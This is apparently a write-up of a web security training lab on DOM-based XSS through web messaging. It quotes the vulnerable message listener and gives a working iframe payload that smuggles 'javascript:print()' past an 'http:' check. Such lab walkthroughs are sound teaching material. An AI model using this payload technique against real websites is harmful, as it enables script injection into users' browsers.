



# DOM XSS using web messages and a JavaScript URL
# Objective
This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

# Solution
## Analysis

Website has `script` that creates `eventListener`.

||
|:--:| 
| *Added event listener - Web messages* |


Vulnerable code:
```js
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

The script above check if data passed via web messages have "http:" or "https:" strings and then sets valou of `location.href`.


## Exploitation
||
|:--:| 
| *Testing basic XSS - provided payload was executed* |
||
| *Final payload* |

Final payload:
```js
<iframe src="https://0ad600c5048b69a287d09d6f001c00cb.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

Explaination:
- `this` - refers to `iframe`.
- `contentWindow` - refers to window object of the `iframe`.
- `postMessage()` - calls web message method.
- `'*'` - specifies the `targetOrigin` - the origin the recipient window must have in order to receive the event. In order for the event to be dispatched, the origin must match exactly. `*` is a wildcard.
- `//http:` - comments out the required string.


